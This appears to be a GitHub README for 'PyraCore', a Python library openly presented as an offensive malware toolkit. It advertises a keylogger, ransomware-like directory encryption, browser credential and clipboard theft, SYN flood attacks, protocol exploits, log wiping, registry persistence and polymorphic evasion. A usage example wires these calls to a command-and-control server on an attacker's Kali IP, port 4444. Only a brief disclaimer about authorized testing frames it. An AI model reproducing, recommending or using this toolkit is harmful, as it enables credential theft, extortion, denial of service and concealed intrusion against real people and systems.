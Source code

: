 # PyraCore

## Introduction
**PyraCore** is a highly modular and robust Python library designed to facilitate the development of advanced tools for system, network, and security operations. Its power lies in its comprehensive set of features that enable sophisticated tasks with ease and efficiency.

## Key Features

### 1. Advanced Encryption
- **AES Encryption/Decryption**: PyraCore provides secure AES encryption and decryption functions, ensuring data protection during transmission.
- **File/Directory Operations**: The library can encrypt and decrypt entire directories, making it useful for protecting sensitive files or implementing ransomware-like functionality.

### 2. Keylogger Functionality
- Monitors keystrokes in real-time and logs them to hidden files, allowing for the capture of sensitive information like passwords and credit card numbers.

### 3. Exploitation Capabilities
- Includes modules for exploiting vulnerabilities in protocols such as RDP, SMB, and HTTP, enabling penetration testing or malicious activities depending on the user's intent.

### 4. Information Gathering
- Extracts browser credentials, captures clipboard content, and steals system information (OS details, IP addresses, etc.), providing valuable insights into the target system.

### 5. Network Scanning and Attacks
- Performs SYN Flood attacks and scans networks for active hosts, facilitating network reconnaissance and potential denial-of-service attacks.

### 6. Anti-Forensics Techniques
- Deletes logs from the system to hinder forensic analysis, making it difficult to trace the actions performed by the library.

### 7. Persistence Mechanisms
- Adds the script to the Windows registry or startup folder to ensure it runs automatically upon system reboot, maintaining long-term access to the target system.

### 8. Polymorphic Code
- Generates dynamic code variations to evade detection by static analysis tools, increasing the stealthiness of the library's operations.

---

## Installation

To install the **PyraCore** library, you can use `pip`:

```bash
pip install pyracore
```

---

## Usage

### Basic Example
Here's a basic example of how to use the library:

```python
from pyracore.core.server import Server
from pyracore.modules.keylogger import Keylogger
from pyracore.modules.network import syn_flood, stop_syn_flood
from pyracore.modules.credentials import extract_browser_passwords
from pyracore.modules.file_operations import encrypt_directory, decrypt_directory
from pyracore.modules.system_info import steal_system_info
from pyracore.modules.clipboard import capture_clipboard
from pyracore.modules.anti_forensics import anti_forensics
from pyracore.sandbox_detection import is_sandbox

# Initialize the server C2
server = Server('192.168.1.102', 4444)  # Change to your Kali Linux IP
server.accept_connections()

# Start the keylogger
keylogger = Keylogger()
keylogger.start()

# Execute an SYN flood attack
syn_flood("192.168.1.10", 80)

# Stop the SYN flood attack
stop_syn_flood()

# Extract browser credentials
creds = extract_browser_passwords()
print(creds)

# Encrypt a directory
encrypt_directory("/path/to/directory")

# Decrypt a directory
decrypt_directory("/path/to/directory")

# Capture clipboard content
clipboard_content = capture_clipboard()
print(clipboard_content)

# Steal system information
info = steal_system_info()
print(info)

# Perform anti-forensics actions
anti_forensics()

# Check if running in a sandbox environment
if is_sandbox():
    print("Sandbox detected.")
    # self_destruct()
```

---

## Contribution

Contributions are welcome! If you want to improve or add new functionalities to **PyraCore**, follow these steps:

1. Fork the repository.
2. Create a branch for your contribution (`git checkout -b feature/nome-da-feature`).
3. Make your changes and commit (`git commit -am 'Adiciona nova funcionalidade'`).
4. Push to the branch (`git push origin feature/nome-da-feature`).
5. Open a Pull Request on GitHub.

---

## License

This project is licensed under the [MIT License](LICENSE). This means you can use, modify, and distribute it freely, provided you maintain the original credits.

---

## Contact

If you have any questions or need help, feel free to contact us at joaquimcarlostimoteo1@gmail.com.

---

## Disclaimer

While **PyraCore** offers powerful functionalities for legitimate purposes like penetration testing and security research, its misuse can lead to severe consequences, both legally and ethically. It is essential to use this library responsibly and within the bounds of the law, adhering to ethical guidelines and obtaining proper authorization before conducting any operations. Always prioritize ethical considerations and legal compliance when utilizing advanced libraries like PyraCore.